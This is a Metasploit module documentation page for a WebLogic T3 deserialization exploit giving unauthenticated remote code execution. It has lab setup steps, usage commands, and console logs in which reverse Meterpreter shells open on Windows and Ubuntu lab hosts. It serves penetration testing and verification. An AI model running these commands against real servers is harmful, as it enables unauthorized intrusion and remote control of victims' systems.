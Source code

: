 ## Vulnerable Application

  There exists a Java object deserialization vulnerability
  in multiple versions of WebLogic.

  Unauthenticated remote code execution can be achieved by
  sending a serialized `BadAttributeValueExpException`
  object over the T3 protocol to vulnerable versions of
  WebLogic. Leveraging an `ExtractorComparator` enables
  the ability to trigger `method.invoke()`, which will
  execute arbitrary code.

  This module has been tested on WebLogic versions
  `v12.2.1.4.0`, `v12.2.1.3.0`, and `v12.1.3.0.0`.

### Installation

  WebLogic versions can be downloaded from [here](https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html).

  Some version of Java 8 JDK is required to be installed on the server.
  This module has been tested successfully using [jdk8u251](https://www.oracle.com/java/technologies/javase-jdk8-downloads.html).

  Installation instructions for WebLogic can be found [here](https://docs.oracle.com/cd/E24705_01/doc.91/e21052/appx_install_wls.htm#EOPWC376).

  On step 10 of the installation instructions, keep the
  `Run Quickstart` box checked and click `done`. A new window
  should pop up. Select `Create a new domain` -> `next`.
  Ensure `Basic WebLogic Server Domain` is selected and click `next`.
  Create credentials and select `next`. Domain mode can be either
  `Production` or `Development`, then click `next`. Click `next` again
  and select `Create`. Click `next` a couple more times, then click
  `finish`.

  To start WebLogic, execute the `startWebLogic` script in
  `Oracle/Middleware/Oracle_Home/user_projects/domains/base_domain/`.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/misc/weblogic_deserialize_badattr_extcomp```
  4. Do: ```set RHOSTS <target_ip>```
  5. Do: ```set LHOSTS <attacker_ip>```
  6. Do: ```set TARGET <0 for Windows or 1 for *NIX>```
  7. Do: ```run```
  8. You should get a shell.

## Scenarios
### WebLogic `v12.2.1.4.0` on Windows 10

  ```
  msf > use exploit/multi/misc/weblogic_deserialize_badattr_extcomp
  msf exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set rhosts 172.16.215.181
  rhosts => 172.16.215.181
  msf exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set lhost 172.16.215.1
  lhost => 172.16.215.1
  msf exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] 172.16.215.181:7001 - Executing automatic check (disable AutoCheck to override)
  [*] 172.16.215.181:7001 - WebLogic version detected: 12.2.1.4.0
  [+] 172.16.215.181:7001 - The target appears to be vulnerable.
  [*] 172.16.215.181:7001 - Sending handshake...
  [*] 172.16.215.181:7001 - Formatting payload...
  [*] 172.16.215.181:7001 - Sending object...
  [*] Sending stage (176195 bytes) to 172.16.215.181
  [*] Meterpreter session 1 opened (172.16.215.1:4444 -> 172.16.215.181:49724) at 2020-06-02 14:03:07 -0500

  meterpreter > getuid
  Server username: DESKTOP-AQT4EG1\space
  meterpreter > sysinfo
  Computer        : DESKTOP-AQT4EG1
  OS              : Windows 10 (10.0 Build 18362).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```

### WebLogic `v12.2.1.4.0` on Ubuntu 18.04

  ```
  msf exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set target 1
  target => 1
  msf exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > set rhosts 172.16.215.180
  rhosts => 172.16.215.180
  msf exploit(multi/misc/weblogic_deserialize_badattr_extcomp) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] 172.16.215.180:7001 - Executing automatic check (disable AutoCheck to override)
  [*] 172.16.215.180:7001 - WebLogic version detected: 12.2.1.4.0
  [+] 172.16.215.180:7001 - The target appears to be vulnerable.
  [*] 172.16.215.180:7001 - Sending handshake...
  [*] 172.16.215.180:7001 - Formatting payload...
  [*] 172.16.215.180:7001 - Sending object...
  [*] Sending stage (980808 bytes) to 172.16.215.180
  [*] Meterpreter session 2 opened (172.16.215.1:4444 -> 172.16.215.180:50522) at 2020-06-02 14:03:43 -0500
  [*] 172.16.215.180:7001 - Command Stager progress - 101.56% done (715/704 bytes)

  meterpreter > getuid
  Server username: no-user @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
  meterpreter > sysinfo
  Computer     : 172.16.215.180
  OS           : Ubuntu 18.04 (Linux 5.3.0-51-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```
